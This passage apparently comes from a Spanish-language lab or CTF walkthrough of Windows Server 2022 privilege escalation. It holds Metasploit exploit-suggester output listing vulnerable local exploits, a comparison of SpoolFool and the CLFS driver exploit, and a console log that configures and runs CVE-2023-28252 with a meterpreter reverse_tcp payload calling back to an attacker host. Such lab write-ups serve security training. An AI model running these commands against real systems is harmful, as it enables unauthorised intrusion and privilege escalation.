 ```meterpreter
[+] 192.168.180.249 - exploit/windows/local/cve_2024_30088_authz_basep: The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 1006
[+] 192.168.180.249 - exploit/windows/local/cve_2024_35250_ks_driver: The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2022
[+] 192.168.180.249 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[*] Running check method for exploit 48 / 48
[*] 192.168.180.249 - Valid modules for session 1:
============================

 #   Name                                                           Potentially Vulnerable?  Check Result
 -   ----                                                           -----------------------  ------------
 1   exploit/windows/local/cve_2022_21882_win32k                    Yes                      The service is running, but could not be validated. May be vulnerable, but exploit not tested on Windows Server 2022                                                                                        
 2   exploit/windows/local/cve_2022_21999_spoolfool_privesc         Yes                      The target appears to be vulnerable.                                                                     
 3   exploit/windows/local/cve_2023_28252_clfs_driver               Yes                      The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default                                                    
 4   exploit/windows/local/cve_2024_30088_authz_basep               Yes                      The target appears to be vulnerable. Version detected: Windows Server 2022. Revision number detected: 1006                                                                                                  
 5   exploit/windows/local/cve_2024_35250_ks_driver                 Yes                      The target appears to be vulnerable. ks.sys is present, Windows Version detected: Windows Server 2022    
 6   exploit/windows/local/ms16_075_reflection                      Yes                      The target appears to be vulnerable.
```
En pricipio vimos SeImpersonatePrivileges avilitados pero el servicio Spooler que necesitamos 
no se encuentra disponible, y tampoco tenemos permisos para iniciarlo.

Podemos intentar con **clfs_driver** en comparacion con **Spooler fool**

#### 🧠 Comparación Técnica de los Exploits

| CVE                | Nombre      | Requiere servicios | Requiere reinicio | Fiabilidad | Compatibilidad con Win Server 2022 |
| ------------------ | ----------- | ------------------ | ----------------- | ---------- | ---------------------------------- |
| **CVE-2022-21999** | SpoolFool   | **Sí**, `Spooler`  | No                | Media      | Compatible si el spooler corre     |
| **CVE-2023-28252** | CLFS Driver | **No**             | No                | **Alta**   | ✔️ Confirmado por Metasploit       |

#### Utilizamos msf el exploit clfs:

```meterpreter
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2023_28252_clfs_driver
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > LHOST 192.168.45.239
[-] Unknown command: LHOST. Did you mean hosts? Run the help command for more details.
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > set LHOST 192.168.45.239
LHOST => 192.168.45.239
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > set LPORT 1234
LPORT => 1234
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2023_28252_clfs_driver) > run
[*] Started reverse TCP handler on 192.168.45.239:1234 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is running windows version: 10.0.20348.0 which has a vulnerable version of clfs.sys installed by default
```